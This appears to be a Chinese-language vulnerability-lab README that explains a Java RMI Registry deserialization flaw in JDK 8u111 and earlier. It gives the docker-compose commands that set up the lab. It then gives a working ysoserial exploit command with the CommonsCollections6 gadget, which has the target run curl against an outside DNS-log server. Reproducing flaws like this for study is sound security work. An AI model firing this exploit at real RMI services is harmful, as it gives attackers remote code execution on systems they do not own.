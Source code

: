 # Java RMI Registry 反序列化漏洞(<=jdk8u111)

## 漏洞描述

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能（虽然大多数情况不允许远程bind），在bind过程中，伪造Registry接收到的序列化数据（实现了Remote接口或动态代理了实现了Remote接口的对象），使Registry在对数据进行反序列化时触发相应的利用链（环境用的是commons-collections:3.2.1）。

## 环境搭建

执行如下命令编译及启动RMI Registry和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过ysoserial的exploit包中的RMIRegistryExploit进行攻击

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```

![image-20220224142802160](./images/202202241428503.png)

Registry会返回报错，但命令会正常执行。可以看到dnslog成功接收请求。

![image-20220224142736669](./images/202202241427738.png)